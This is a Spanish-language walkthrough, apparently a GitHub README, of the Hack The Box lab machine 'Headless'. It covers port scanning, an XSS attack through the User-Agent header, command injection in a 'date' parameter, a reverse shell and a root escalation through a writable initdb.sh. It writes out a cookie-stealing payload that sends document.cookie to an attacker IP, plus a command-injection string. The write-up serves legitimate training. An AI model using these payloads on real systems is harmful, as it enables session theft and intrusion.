 # HTB - HEADLESS

## Enumeración de puertos/servicios

Se realizó un escaneo de puertos en la dirección IP 10.10.11.8 utilizando la herramienta `nmap`, lo que reveló la presencia de dos puertos abiertos:


``` bash 
sudo nmap -sCVT 10.10.11.8
```

- Puerto 22 (SSH)
- Puerto 5000 (Posiblemente un servicio web)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Además, se realizó un análisis de la página web en el puerto 5000 mediante un fuzzing en busca de directorios, lo que proporcionó información adicional sobre posibles puntos de entrada.


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades

Se identificaron posibles vulnerabilidades en la aplicación web en el puerto 5000, incluyendo un posible XSS (Cross-Site Scripting) y una posible inyección de comandos. 

Se llevó a cabo una exploración más profunda para encontrar formas de explotar estas vulnerabilidades.

## Explotación de vulnerabilidades

Tras una exploración más profunda, se descubrió que la aplicación web en el puerto 5000 tenía medidas de seguridad activas que detectaban y bloqueaban intentos de manipulación. Al intentar realizar un XSS directamente, la página devolvía un mensaje indicando "hacking attempt detected".


``` javascript
<script>alert(‘XSS’)</script>
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

Para sortear esta protección, se observó que la aplicación no filtraba ni validaba el User-Agent en las solicitudes HTTP. Se decidió entonces realizar un ataque XSS desde el User-Agent. Se construyó un payload XSS en forma de etiqueta `<img>` con un atributo `onerror` que ejecutaría una solicitud a un servidor controlado por el atacante, capturando así la cookie de sesión del administrador. Esta cookie luego se podría utilizar para obtener acceso al dashboard como administrador.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)


Tras ejecutar con éxito el payload XSS desde el User-Agent y capturar la cookie de sesión del administrador, se procedió a autenticarse en el dashboard como administrador y a explorar las funcionalidades disponibles en busca de nuevas vulnerabilidades para explotar.

Posteriormente, se identificó una vulnerabilidad de inyección de comandos en el parámetro 'date' del dashboard, lo que permitió ejecutar comandos en el sistema remoto. Se aprovechó esta vulnerabilidad para ejecutar un script de reverse shell y obtener acceso al sistema comprometido.


El problema es que no me servía ya que yo no tenia una web a la que me la redirigiese así que cree un python3 server para enviarme la cookie session ahí.


``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```


 Después de lanzar el python server lanzo el xss mediante burpsuite y lo envío

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

Al enviarlo me devuelve en el server la cookie del admin, que es la siguiente:

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"


Una vez se cambia la cookie a is_admin, ya nos dejara entrar a dashboard

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

Inspeccionando el dashboard me doy cuenta que en el burpsuite se envia un parametro llamado date.
En este parametro intento hacer un RCE inyectando lo siguiente:

date=2023-09-15; whoami

Despues de enviar la petición veo que no me da ningun tipo de error y me devuelve el nombre del user del server. 

Una vez veo que puedo hacer un RCE, intento hacer una reverse shell simple pero no me funciona asi que pruebo a crear un archivo llamado rev.sh en el cual escribo la reverse shell .

Intento hacer un curl  al python server para exportar el archivo y a su misma vez ejecuto un nc.


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b68edf39-9e86-499a-8c37-2eca9830b174)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/75378874-c1d1-4c2b-bbcd-beef2b1602d0)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/73428c24-ed07-4899-bb0e-a78eb2c43f3b)

Y funciona, ya tenemos acceso a la maquina.

Una vez dentro me dirijo a la carpeta /home/dvir y hacemos un cat  al archivo user.txt

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ad2d1ffb-445b-42df-a178-6521a399b907)


## Escalada de Privilegios

Una vez dentro del sistema comprometido, se procedió a la escalada de privilegios. Se identificó un archivo llamado `syscheck` que podía ser ejecutado con privilegios de root. Este script, utilizado para verificar el estado del sistema, presentaba una vulnerabilidad que permitía la ejecución de comandos con privilegios de root sin autenticación.

Mediante la explotación de esta vulnerabilidad, se logró obtener privilegios de root en el sistema comprometido.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ef519537-4488-459c-ab50-e8887d954826)

Me llama la atención el párrafo del final. 
Decido hacerle un cat al archivo proporcionado (/usr/bin/syscheck) y nos devuelve un script en bash.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/1db49c30-e4b8-4324-a3a6-919e955efb91)

1. **Verificación de permisos de root**:
    
    - El script comienza verificando si se está ejecutando como el usuario root. Esto se hace comparando el ID de usuario efectivo (`$EUID`) con 0, que es el ID de usuario del root en la mayoría de los sistemas Unix. Si el ID de usuario efectivo no es 0, el script sale con un código de salida 1, lo que indica un error.
    
1. **Última modificación del kernel**
    
	- Utiliza el comando `find` para buscar archivos de kernel (`vmlinuz*`) en el directorio `/boot`.
    - Usa el comando `stat` para obtener la marca de tiempo de la última modificación de cada archivo de kernel encontrado.
    - Ordena estas marcas de tiempo de manera numérica (`sort -n`) y toma la última usando `tail`.
    - Utiliza `date` para formatear la marca de tiempo en un formato legible y la almacena en la variable `formatted_time`.
    - Imprime la fecha y hora de la última modificación del kernel.

1. **Espacio de disco disponible**:
    
    - Usa el comando `df` para mostrar el uso de espacio en disco del sistema de archivos donde está montado `/`.
    - El comando `awk` se utiliza para extraer la cantidad de espacio disponible.
    - Imprime la cantidad de espacio disponible.
    
4. **Carga promedio del sistema**:
    
    - Utiliza el comando `uptime` para obtener la carga promedio del sistema.
    - Utiliza `awk` para extraer la carga promedio del resultado.
    - Imprime la carga promedio del sistema.

5. **Verificación del servicio de base de datos**:
    
    - Utiliza `pgrep` para verificar si el proceso llamado "initdb.sh" está en ejecución.
    - Si no se encuentra el proceso (`pgrep` devuelve un código de salida diferente de 0), imprime un mensaje indicando que el servicio de base de datos no está en ejecución y lo inicia ejecutando el script `initdb.sh`.
    - Si el proceso se encuentra en ejecución, imprime un mensaje indicando que el servicio de base de datos está en ejecución.

Finalmente, el script sale con un código de salida 0, indicando que se ha ejecutado correctamente.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2b547132-09ac-47f5-8799-bbdc674e991d)

Despues de ejecutar el script initdb.sh ya estamos en el user root asi que ya podemos acceder en el directorio root.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ea9720f4-2e2c-44a7-857f-2fad1f1b0ab7)


**Conclusiones:** El proceso de análisis, detección de vulnerabilidades y explotación demostró la importancia de una sólida metodología de pruebas de penetración. La identificación de vulnerabilidades y la comprensión de su explotación son aspectos críticos en la seguridad de la información, destacando la necesidad de una mitigación proactiva de riesgos y una gestión eficaz de la seguridad.

El acceso obtenido al sistema comprometido resalta la importancia de mantener los sistemas actualizados, parcheando vulnerabilidades conocidas y siguiendo las mejores prácticas de seguridad.
